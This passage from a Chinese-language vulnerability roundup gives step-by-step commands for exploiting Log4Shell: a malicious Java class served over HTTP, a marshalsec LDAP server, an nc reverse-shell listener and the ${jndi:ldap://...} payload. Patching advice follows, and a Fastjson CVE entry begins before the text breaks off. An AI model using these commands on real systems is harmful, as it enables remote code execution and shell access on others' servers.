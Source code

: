         public static void main(String[] args) throws Exception {  
        }  
    }  
      
      
    

执行指令

    
    
    javac Exploit.java    
    

python启用http服务，部署恶意类

    
    
    python3 -m http.server 8080  
    

marshalsec 开启 LDAP服务

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar     marshalsec.jndi.LDAPRefServer "http://http服务地址:端口/#Exploit" 9999      
    

接收shell的服务器 开启监听

    
    
    nc -lvvp 9897  
    

在目标服务执行payload

    
    
    ${jndi:ldap://LDAP服务地址:LADP服务端口/Exploit}  
    

 **修复建议**  
目前，Apache 官方已发布新版本完成漏洞修复，建议及时升级至 2.15.0-rc2  
以上版本：https://github.com/apache/logging-log4j2/tags  
建议同时采用如下临时措施进行漏洞防范：

  1. 添加 jvm 启动参数-Dlog4j2.formatMsgNoLookups=true
  2. 在应用 classpath 下添加 log4j2.component.properties 配置文件，文件内容为 log4j2.formatMsgNoLookups=true；
  3. JDK 使用 11.0.1、8u191、7u201、6u211 及以上的高版本；
  4. 部署使用第三方防火墙产品进行安全防护。

# 2、 **Fastjson 远程代码执行漏洞**

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从
JSON 字符串反序列 化到 JavaBean。在 Fastjson 1.2.80 及以下版本中存在反序列化漏洞，攻击者可 以在特定依赖下利用此漏洞绕过默认
autoType 关闭限制，从而反序列化有安全  
风险的类。  
 **漏洞标签：** 国产框架、利用链成熟、打点常见、服务器权限相关  
 **漏洞编号：** CVE-2022-25845  
 **漏洞类型：** RCE  
 **受影响版本：**
